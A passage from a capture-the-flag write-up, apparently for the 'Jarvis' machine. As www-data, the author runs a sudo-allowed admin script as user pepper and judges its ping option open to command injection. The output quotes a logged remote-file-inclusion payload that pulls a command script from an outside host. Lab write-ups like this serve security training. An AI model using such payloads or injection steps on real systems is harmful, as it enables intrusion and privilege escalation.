 ```bash
Most Recent: 10.10.14.4 --> 2025-04-13 11:44:51 : GET /usr/extensions/get_tree.inc.php?GLOBALS[\\\"root_path\\\"]=http://blog.cirt.net/rfiinc.txt?cmd=id;pwd
```

`-s` option returns a suspicious request log.
My previous attempt was logged here.

```bash
www-data@jarvis:/var/www/html$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -l
<do -u pepper /var/www/Admin-Utilities/simpler.py -l
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Attackers
-----------
10.10.14.4 - Attack Level : 3
```

The script with `-l` option returns an IP address with its attack level.

```bash
www-data@jarvis:/var/www/html$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
<do -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: 10.10.14.4
10.10.14.4
PING 10.10.14.4 (10.10.14.4) 56(84) bytes of data.
64 bytes from 10.10.14.4: icmp_seq=1 ttl=63 time=285 ms
64 bytes from 10.10.14.4: icmp_seq=2 ttl=63 time=258 ms
...SNIP...
```

It's taking IP address as an input from a user, and send ping to the inputted IP address.
I think it can be exploited to inject commands.

Let's investigate the script.
